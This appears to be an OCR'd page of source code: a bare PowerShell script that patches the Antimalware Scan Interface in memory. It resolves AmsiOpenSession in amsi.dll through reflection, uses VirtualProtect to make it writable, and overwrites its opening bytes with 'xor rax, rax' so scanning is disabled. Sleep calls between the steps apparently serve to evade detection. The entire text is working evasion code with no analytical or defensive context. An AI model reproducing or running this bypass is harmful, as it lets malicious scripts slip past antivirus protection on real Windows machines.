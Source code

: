 function lookFuncAddr{
Param($moduleName, $functionName)

$assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
Where-Object {$_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll')}).GetType('Microsoft.Win32.UnsafeNativeMethods')
$tmp=@()
$assem.GetMethods() | ForEach-Object{If($_.Name -eq 'GetProcAddress') {$tmp+=$_}}
return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

Start-Sleep 5

function getDelegateType{
Param(
[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
[Parameter(Position = 1)] [Type] $delType = [Void]
)

$type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),
[System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType',
'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])

$type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
$type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')

return $type.CreateType()
}

Start-Sleep 5

[IntPtr]$amsiAddr = lookFuncAddr amsi.dll AmsiOpenSession
$oldProtect = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((lookFuncAddr kernel32.dll VirtualProtect),
(getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))

$vp.Invoke($amsiAddr, 3, 0x40, [ref]$oldProtect)

Start-SLeep 7

$3b = [Byte[]] (0x48, 0x31, 0xC0)
[System.Runtime.InteropServices.Marshal]::Copy($3b, 0, $amsiAddr, 3)

$vp.Invoke($amsiAddr, 3, 0x20, [ref]$oldProtect)
